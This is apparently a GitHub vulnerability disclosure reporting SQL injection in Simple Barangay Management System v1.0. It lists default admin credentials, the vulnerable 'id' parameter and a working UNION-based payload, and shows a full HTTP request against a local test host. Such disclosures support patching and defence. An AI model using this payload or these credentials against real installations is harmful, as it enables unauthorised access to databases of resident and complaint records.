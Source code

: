 # Simple Barangay Management System v1.0 has SQL injection

BUG_AUTHOR: Weifei Hong

vendors: https://www.sourcecodester.com/php/14990/simple-barangay-management-system-php-and-sqlite-free-source-code.html

username&password = admin/admin123

Vulnerability File: /barangay_management/admin/?page=view_complaint

Vulnerability location: /barangay_management/admin/?page=view_complaint&id=,  id

[+] Payload: /barangay_management/admin/?page=view_complaint&id=1' union select 1,sqlite_version(),3,4,5,6--+

```sql
GET /barangay_management/admin/?page=view_complaint&id=1%27%20union%20select%201,sqlite_version(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=drqs3g29b8h07v6amt7rnb8t64
Connection: close


```

![image](https://github.com/user-attachments/assets/30589a37-c171-44ae-bcc2-3e9f19088aad)
